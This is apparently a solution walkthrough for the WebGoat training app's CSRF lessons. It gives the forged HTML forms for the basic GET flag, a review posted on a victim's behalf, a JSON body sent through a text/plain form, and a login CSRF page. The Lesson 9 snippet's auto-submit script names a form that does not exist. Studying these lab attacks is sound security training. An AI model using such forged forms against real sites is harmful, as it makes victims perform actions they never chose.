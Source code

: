 # Cross-Site Request Forgeries

## Lesson 3 - Basic Get CSRF Exercise
Create a fake HTML page:
```html
<form accept-charset="UNKNOWN" id="basic-csrf-get" method="POST" name="form1" target="_blank" successcallback="" action="http://localhost:8080/WebGoat/csrf/basic-get-flag">
    <input name="csrf" type="hidden" value="false">
    <input type="submit" name="submit">
</form>
```
Save it to your disk, open in a browser (or upload to WebWolf) and click on `submit`.
 
In a real attack scenario, we'd need to trick the victim to click this button.

## Lesson 4 - Post a review on someone else’s behalf
Pretty much the same as the previous lesson:
```html
<form class="attack-form" accept-charset="UNKNOWN" id="csrf-review" method="POST" name="review-form" successcallback="" action="http://localhost:8080/WebGoat/csrf/review">
    <input type="hidden" name="reviewText" type="text" value="Oh no!">
    <input type="hidden" name="stars" type="text" value="5">
    <input type="hidden" name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9">
    <input type="submit" name="submit" value="Submit review">
</form>
```

## Lesson 7 - CSRF and content-type
This is a very nice assignment. A neat trick how to send JSON/XML payload from a standard HTML form.
Even though the `Content-Type` headers is set to `text/plain`.

This is the form:
```html
<form name="feedback" enctype="text/plain" action="http://localhost:8080/WebGoat/csrf/feedback/message" method="POST">
  <input type="hidden" name='{"name":"vernjan","email":"foo@bar.com","subject":"service","message":"Hello' value='"}'>
  <input type="submit">
</form>
```

This [article](http://pentestmonkey.net/blog/csrf-xml-post-request) explains it well.

And the JSON payload generated from this form:
```json
{"name":"vernjan","email":"foo@bar.com","subject":"service","message":"Hello="}
```

## Lesson 9 - Login CSRF attack
Again, craft an HTML page with the following form:
```html
<form action="http://localhost:8080/WebGoat/login" method="POST" style="width: 200px;">
  <input type="hidden" name="username" value="csrf-vernjan">
  <input type="hidden" name="password" value="hello123">
  <button type="submit">Sign in</button>
</form>
<script>document.login.submit()</script>
```

Once the victim opens your page, it will be automatically log in as `csrf-vernjan`.